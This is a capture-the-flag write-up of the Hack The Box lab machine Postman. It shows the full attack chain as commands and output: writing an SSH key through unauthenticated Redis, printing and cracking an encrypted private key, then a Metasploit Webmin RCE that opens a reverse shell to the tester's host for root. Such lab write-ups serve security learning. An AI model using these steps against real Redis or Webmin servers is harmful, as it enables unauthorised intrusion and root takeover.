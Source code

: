 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Postman
- Description: Postman is an easy difficulty Linux machine, which features a Redis server running without authentication. This service can be leveraged to write an SSH public key to the user&amp;#039;s folder. An encrypted SSH private key is found, which can be cracked to gain user access. The user is found to have a login for an older version of Webmin. This is exploited through command injection to gain root privileges.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

4 services, 2 webpages, ssh, and redis. I like starting with things that are very quickly exploitable if possible, aka redis. Let's get started:

```bash
HTB redis-cli -h 10.10.10.160 
10.10.10.160:6379> info
# Server
redis_version:4.0.9
```

I try to write into the html directory to see if I can get php execution:

```bash
10.10.10.160:6379> config set dir /var/www/html
OK
10.10.10.160:6379> set test "<?php phpinfo(); ?>"
OK
10.10.10.160:6379> save
(error) ERR
```

Next I'll attempt to get a shell by writing an ssh key to the redis users home dir:

```bash
HTB (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat: /home/kali/id_rsa.pub: No such file or directory
➜  HTB (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
➜  HTB cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
OK
➜  HTB redis-cli -h 10.10.10.160                                               
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379>
```

Now I can just ssh in:
```bash
HTB ssh redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ED25519 key fingerprint is SHA256:eBdalosj8xYLuCyv0MFDgHIabjJ9l3TMv1GYjZdxY9Y.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ ls
6379  dkixshbr.so  dump.rdb  ibortfgq.so  module.o  qcbxxlig.so  vlpaulhk.so
redis@Postman:~$
```

## Privilege Escalation

Now we have to privilege escalate!

Reading my bash_history file:

```bash
redis@Postman:~$ cat .bash_history 
exit
su Matt
pwd
nano scan.py
python scan.py
nano scan.py
clear
nano scan.py
clear
python scan.py
exit
exit
cat /etc/ssh/sshd_config 
su Matt
clear
cd /var/lib/redis
su Matt
exit
cat id_rsa.bak 
ls -la
exit
cat id_rsa.bak 
exit
ls -la
crontab -l
systemctl enable redis-server
redis-server
ifconfig
netstat -a
netstat -a
netstat -a
netstat -a
netstat -a > txt
exit
crontab -l
cd ~/
ls
nano 6379
exit
```

I can see that an id_rsa.bak file was created, let me go look for it:

```bash
redis@Postman:/opt$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
redis@Postman:/opt$
```

I find it in opt and I can read it! perfect, I can export this to my machine and crack it. I know I need to crack it because  of the encrypted header at the top.
```bash
 HTB ssh2john encid > hash
➜  HTB john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (encid)     
1g 0:00:00:00 DONE (2024-01-25 14:18) 7.692g/s 1898Kp/s 1898Kc/s 1898KC/s confused6..colin22
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I try to ssh but that doesn't work, so I use the password to su and that works:

```bash
redis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$
```

I try to login with Matts credentials to the webmin instance on 10000, knowing webmin its a platform that runs as root. If it's vulnerable we should be able to get root:

Webmin 1.910 is vulneerable on metasploit:

```bash
msf6 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[+] Session cookie: fd8136e716cf280759a7b4bfde45a8b8
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.160:59102) at 2024-01-25 14:42:22 -0500
whoami

root
```
Root!

best,
gerbsec